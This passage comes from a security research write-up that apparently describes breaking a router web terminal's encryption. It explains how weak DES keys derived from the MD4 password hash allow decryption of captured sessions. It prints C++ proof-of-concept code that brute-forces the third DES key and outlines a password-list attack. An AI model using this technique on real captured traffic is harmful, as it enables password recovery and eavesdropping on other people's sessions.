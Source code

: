 ```
        pwdHash[6] = ((p_key[6] & 0x02) << 6) | ((p_key[7] & 0xfe) >> 1);

        return pwdHash;
    }
```
If you are reading closely you might be wondering how three keys with 7 bytes of recoverable data combine to make a 16 byte MD4 hash. The answer is simple: the third key has only two bytes of recoverable in the upper 3 bytes of the key. The rest of the third key is simply padded with zeros which makes it very easy to brute force. From the PoC code:
```
    /*
     * We only have to guess 21 bits for the third key!
     */
    bool getKey3(std::string& p_key3, const std::string& p_response3, const std::string& p_challengeHash)
    {
        std::cout << "[+] Brute forcing DES Key 3" << std::endl;

        p_key3.clear();
        p_key3.resize(8, 0);

        for (std::size_t i = 0; i < 256; i += 2) {
            p_key3[0] = i;
            for(std::size_t j = 0; j < 256; j += 2) {
                p_key3[1] = j;
                for(std::size_t k = 0; k < 256; k += 2) {
                    p_key3[2] = k;
                    std::string encrypted;
                    DES::des(p_challengeHash, p_key3, encrypted);
                    if (encrypted == p_response3) {
                        return true;
                    }
                }
            }
        }
        return false;
    }
```
And just like that we have the lower two bytes of the MD4 hash of the user's password. To reiterate, if we can brute force the first and second DES keys we have the entire hash of the password which we can use to create the "master key" and decrypt the entire terminal session.

However, on my home hardware, brute forcing 56-bit keys in a reasonable amount of time is not practical. As such the PoC "jsproxy_des_bruteforce" cheats and I've given it 49 bits of the sample pcaps keys. I think it proves the point though that an individual with sufficient computing power can break the terminal decryption.

##### Brute Forcing the MD4(password) to Generate the Master Key
As mentioned above, brute forcing two 56-bit DES keys is not practical for most people. However, we don't need to actually break the DES keys to start decrypting the terminal data. We just need to guess what the MD4(password) is. This is easy to solve if we trust the user to make a guessable password and we have a password list handy. For each password we guess we just have to:
1. MD4 hash the password we are guessing
2. Generate the DES encrypted "responses" without our MD4(password)
3. Compare what we generated against the "response" in the pcap.
4. If they match then we have the user's password and we can decrypt the terminal sessions. Else go to 1.

# Summary
I've explained two ways we can recover the MD4(password) so that we can decrypt the web terminal traffic. I've provided code and a pcap so that you can try it yourself. I must stress that the code is very proof of concept but it works for the provided sample.
